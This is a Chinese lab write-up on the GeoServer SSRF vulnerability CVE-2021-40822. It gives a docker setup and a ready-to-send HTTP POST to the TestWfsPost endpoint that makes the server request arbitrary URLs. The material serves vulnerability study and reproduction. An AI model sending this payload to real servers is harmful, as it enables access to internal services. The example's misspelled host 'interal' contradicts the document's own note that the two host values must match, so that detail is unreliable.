

# GeoServer 未授权SSRF漏洞（CVE-2021-40822）

GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

在GeoServer 2.19.3、2.18.5和2.17.6版本之前，WMS GetMap请求中存在服务器端请求伪造（SSRF）漏洞。攻击者可以利用此漏洞通过GeoServer服务器向内部或外部服务发送请求。

参考链接：

- <https://github.com/geoserver/geoserver/security/advisories/GHSA-7g5f-wrx8-5ccf>
- <https://nvd.nist.gov/vuln/detail/CVE-2021-40822>

## 漏洞环境

执行如下命令启动一个GeoServer 2.19.1服务器：

```
docker compose up -d
```

服务启动后，你可以在`http://your-ip:8080/geoserver`查看到GeoServer的默认页面。

## 漏洞复现

漏洞存在于TestWfsPost接口中。攻击者可以利用`url`参数使服务器向任意URL发送请求。该接口接受以下参数：

- `url`：GeoServer将要发送请求的目标URL
- `body`：要发送的请求体内容。如果此参数为空，GeoServer将发送GET请求；如果包含任何值，则GeoServer将发送POST请求
- `username`：基础认证的用户名（可选）
- `password`：基础认证的密码（可选）

发送如下请求来复现漏洞：

```
POST /geoserver/TestWfsPost HTTP/1.1
Host: internal
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 96

form_hf_0=&url=http://interal/geoserver/../&body=testtest&username=admin&password=admin
```

比如，使用`google.com`作为目标URL，你将看到`google.com`的响应。



> 注意：`url`参数中的主机名必须与请求中的`Host`头部值相同，否则GeoServer会返回错误。例如，如果`url`参数中的主机名是`internal`，那么请求中的`Host`头部值也必须是`internal`。
